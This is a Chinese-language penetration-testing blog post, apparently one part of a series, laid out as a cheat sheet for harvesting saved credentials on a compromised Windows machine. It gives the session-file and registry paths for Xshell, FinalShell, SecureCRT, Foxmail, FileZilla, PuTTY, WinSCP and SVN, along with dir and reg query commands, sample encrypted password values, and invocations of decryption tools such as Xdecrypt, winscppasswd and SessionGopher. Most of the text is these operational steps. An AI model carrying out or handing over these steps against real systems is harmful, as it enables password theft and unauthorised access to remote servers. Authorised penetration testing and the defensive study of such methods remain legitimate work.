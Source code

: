 # 内网渗透-Windows凭据收集之Xshell、SecureCRT等其他凭据(10)

  
  
&lt;!--more--&gt;  
## xshell  
XShell 5 `%userprofile%\Documents\NetSarang\Xshell\Sessions`  
XFTP 5 `%userprofile%\Documents\NetSarang\Xftp\Sessions`  
XShell 6 `%userprofile%\Documents\NetSarang Computer\6\Xshell\Sessions`  
XFTP 6 `%userprofile%\Documents\NetSarang Computer\6\Xftp\Sessions`  
5.x之后的版本，默认放在了当前用户的Documents目录下的NetSarang目录中  
```  
#dir&#34;%userprofile%\Documents\NetSarang\Xshell\Sessions&#34;  
#dir &#34;%userprofile%\Documents\NetSarang\Xftp\Sessions&#34;  
```  
6.x之后的版本，放在了当前用户的Documents目录下，目录改了名叫`NetSarang Computer`  
```  
#dir&#34;%userprofile%\Documents&#34;  
#dir&#34;%userprofile%\Documents\NetSarang Computer\6\Xshell\Sessions&#34;  
#dir&#34;%userprofile%\Documents\NetSarang Computer\6\Xftp\Sessions&#34;  
```  
https://github.com/dzxs/Xdecrypt  
```  
python Xdecrypt.py -s &#34;username&#34;&#43;&#34;S-1-5-21-3236955782-1939288761-1217588242-1001&#34; -p &#34;C:\Users\win10\Documents\NetSarang\Xshell\Sessions&#34;  
```  
## FinalShell  
尝试把`json`文件拿回来然后进去解密  
`C:\Users\win10\AppData\Local\finalshell\conn`  
https://github.com/passer-W/FinalShell-Decoder  
## SecureCRT  
在不同版本的SecureCRT中`%APPDATA%\VanDyke\Config\Sessions\example.com.ini`配置中对应的password可能是不一样的，有些密码存储在password项，有些存储的是`Password V2`项，具体类似如下  
```  
S:&#34;Password&#34;  
=u17cf50e394ecc2a06fa8919e1bd67cf0f37da34c78e7eb87a3a9a787a9785e802dd0eae4e8039c3ce234d34bfe28bbdc  
S:&#34;Password V2&#34;=02:7b9f594a1f39bb36bbaa0d9688ee38b3d233c67b338e20e2113f2ba4d328b6fc8c804e3c02324b1eaad57a5b96ac1fc5cc1ae0ee2930e6af2e5e644a28ebe3fc  
```  
这两者之间的加解密方法是有区别的。具体一般以SecureCRT 7.3.3版本进行分界。之前的版本一般会使用password加密算法，之后的一般使用password v2算法。  
**低版本**  
拿文件回来直接用脚本看  
https://github.com/gitPoc32/Forensic/tree/master/VanDykeSecureCRT  
`python2 SecureCRT-decryptpass.py 172.16.81.134.ini`  
**高版本**  
整个目录拷回来，直接连接  
对于高版本对，可以把`%APPDATA%\VanDyke\Config\`整个目录拷贝到本机SecureCRT的Config目录下，然后直接连接。但版本要与目标的一致，否则可能出问题。  
```  
找到目标securecrt保存在本地的所有连接会话文件，默认都存放在当前用户数据目录下的Config目录下的Sessions目录中,以.ini命名  
%APPDATA%\VanDyke\Config\Sessions  
C:\Users\win10\AppData\Roaming\VanDyke\Config\Sessions  
```  
**teamserver**  
https://github.com/Enul1ttle/Tools/tree/69c0552dfd47f2483782824d2e92c857978f4ed9  
**foxmail**  
```  
[Foxmail 7.2 版]  
C:\Program Files\Foxmail 7.2\Storage\&lt;account_emailaddress&gt;\Accounts\Account.rec0  
  
[Foxmail 7.0 版]  
C:\Program Files\Foxmail 7.0\Data\AccCfg\Accounts.tdat  
  
[Foxmail 6 版.x]  
C:\Program Files\Foxmail\mail\&lt;account_emailaddress&gt;\Account.stg  
```  
https://github.com/StarZHF/Foxmail-Password-Recovery  
**FileZilla**  
存放路径`C:\Users\win10\AppData\Roaming\FileZilla\recentservers.xml`  
base64解码即可  
**PuTTY**  
获取连接记录  
`HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\`  
https://www.sec-in.com/article/463  
**WinSCP**  
`reg query &#34;HKEY_USERS\S-1-5-21-3448889457-1595340786-1372807316-1000\Software\Martin Prikryl\WinSCP 2\Sessions&#34;`  
https://github.com/anoopengineer/winscppasswd  
`winscppasswd.exe 192.168.0.109 root pass`  
https://github.com/Arvanaghi/SessionGopher 提取WinSCP、PuTTY等保存的会话信息  
```  
. .\SessionGopher.ps1  
Invoke-SessionGopher -Thorough  
```  
**svn**  
`C:\Users\win10\AppData\Roaming\Subversion\auth\svn.simple`  
http://www.leapbeyond.com/ric/tsvnpd/ 或者 laZagne  

---

> Author: N1Rvana  
> URL: http://localhost:1313/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F-windows%E5%87%AD%E6%8D%AE%E6%94%B6%E9%9B%86%E4%B9%8Bxshellsecurecrt%E7%AD%89%E5%85%B6%E4%BB%96%E5%87%AD%E6%8D%AE10/  

